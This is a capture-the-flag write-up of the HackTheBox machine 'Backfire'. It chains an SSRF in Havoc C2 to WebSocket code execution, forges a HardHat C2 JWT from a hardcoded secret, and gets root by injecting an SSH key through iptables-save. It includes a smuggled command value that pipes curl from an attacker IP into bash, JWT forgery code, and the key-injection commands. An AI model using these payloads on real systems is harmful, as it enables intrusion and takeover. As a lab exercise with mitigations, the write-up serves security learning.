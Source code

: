 ```yaml
---
title: backfire
categories: [HackTheBox]
tags: [linux, havod, ssrf, hard, c2]
difficulty: "Medium"
media_subpath: /images/hackthebox_backfire/
image:
  path: 'https://labs.hackthebox.com/storage/avatars/aa0a93908243c51fe21e691fc6571911.png'
---
```


# 🗞 [Backfire] – Technical Report

## 1. Identification
- **Machine Name**: Backfire
- **Operating System**: Linux (Debian)
- **IP Address**: 10.10.11.49
- **Analysis Date**: May 28, 2025
- **Difficulty**: Medium

---
## 2. Objective

> Demonstrate exploitation of exposed Havoc C2 infrastructure through SSRF-to-WebSocket chaining, lateral movement to HardHat C2 via JWT weaknesses, and privilege escalation through iptables misconfiguration.

---
## 3. Methodology
- **Information Gathering**:
    - Network service enumeration
    - Web application analysis
- **Initial Compromise**:
    - SSRF exploitation leading to WebSocket API abuse
    - Havoc teamserver RCE via payload compilation injection
- **Lateral Movement**:
    - HardHat C2 JWT token forgery
    - Operator account creation
- **Privilege Escalation**:
    - Arbitrary file write via iptables-save

---
## 4. Information Gathering

**Nmap Scan Results**:
```bash
nmap -p- --min-rate=1000 -T4 10.10.11.49
```

**Critical Services**:

| Port | Service | Version                          |
| ---- | ------- | -------------------------------- |
| 22   | SSH     | OpenSSH 9.2p1 Debian 2+deb12u4   |
| 443  | HTTPS   | nginx 1.22.1                     |
| 8000 | HTTP    | nginx 1.22.1 (Directory Listing) |

**Key Findings**:
- TCP/8000 exposes sensitive files:
    
    - `disable_tls.patch`: Disables TLS for Havoc WebSocket (40056/tcp)
    - `havoc.yaotl`: Leaks operator credentials and listener configs

---
## 5. Vulnerability Analysis

### 5.1 Havoc C2 Exposures
- **CVE-2025-XXXX**: Unauthenticated SSRF in Havoc API
- **Impact**: Internal service probing → WebSocket hijacking

### 5.2 HardHat C2 Weaknesses
- **Hardcoded JWT Secret**: `jtee43gt-6543-2iur-9422-83r5w27hgzaq`
- **Privilege Escalation Vector**: iptables-save arbitrary write

---
## 6. Exploitation Chain

### 6.1 Initial Foothold (SSRF → WebSocket RCE)
**WebSocket Handshake Injection**:
```bash
payload = b"GET /havoc/ HTTP/1.1\r\nHost: 127.0.0.1:40056\r\nUpgrade: websocket\r\n..."
write_socket(socket_id, payload)
```

**Payload Compilation Attack**:
```bash
send_websocket_frame(b'{"Body":{"Config":"\\"Service Name\\":\\" -mbla; curl 10.10.14.9/test | bash #\\""...}')
```
**Result**: Reverse shell as `i1ya` user

### 6.2 Lateral Movement (HardHat C2)
**JWT Token Generation**:
```csharp
var token = new JwtSecurityToken(
    issuer: "hardhatc2.com",
    claims: new[] { new Claim(ClaimTypes.Role, "Administrator") },
    signingCredentials: new SigningCredentials(
        new SymmetricSecurityKey(Encoding.UTF8.GetBytes("jtee43gt-...")), 
        SecurityAlgorithms.HmacSha256)
);
```

**Operator Account Creation**:
- Added via `/Settings` endpoint with full privileges

---
## 7. Privilege Escalation
**iptables-save Arbitrary Write**:
```bash
sudo iptables -A INPUT -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3...\n'
sudo iptables-save -f /root/.ssh/authorized_keys
```

**Root Access Validation**:
```bash
ssh root@backfire.htb 
# uid=0(root) gid=0(root) groups=0(root)
```

---
## 8. Forensic Artifacts

| Location                      | Content                        |
| ----------------------------- | ------------------------------ |
| `/home/i1ya/hardhat.txt`      | HardHatC2 installation note    |
| `/etc/havoc/teamserver.conf`  | Cleartext operator credentials |
| `/var/log/hardhat/access.log` | JWT token usage trails         |

---
## 9. Mitigation Strategies

1. **Havoc C2 Hardening**:
    - Disable SSRF-prone endpoints
    - Enforce WebSocket TLS encryption
2. **HardHat C2 Remediation**:
    - Rotate JWT secrets
    - Implement dynamic secret generation
3. **System Hardening**:
    - Restrict iptables-save permissions
    - Implement filesystem integrity monitoring

---
## 10. Technical Insights

**WebSocket Protocol Abuse**:
- SSRF bypasses network isolation through HTTP-to-WebSocket protocol switching
- Frame manipulation enables C2 command injection

**JWT Security Antipattern**:
- Hardcoded secrets enable trivial privilege escalation
- Lack of token invalidation mechanisms

**Linux Privilege Escalation**:
- iptables comment field allows newline injection
- iptables-save writes raw rules including metadata

---
## 11. Indicators of Compromise

**Network**:
- Outbound connections to `backfire.htb:40056`
- WebSocket handshakes with missing TLS

**Filesystem**:
- Unauthorized `/root/.ssh/authorized_keys` modifications
- `/tmp/websocket_payloads` directory creation

**Process**:
- Unusual gcc compilation processes from Havoc
- iptables ruleset changes via non-root users
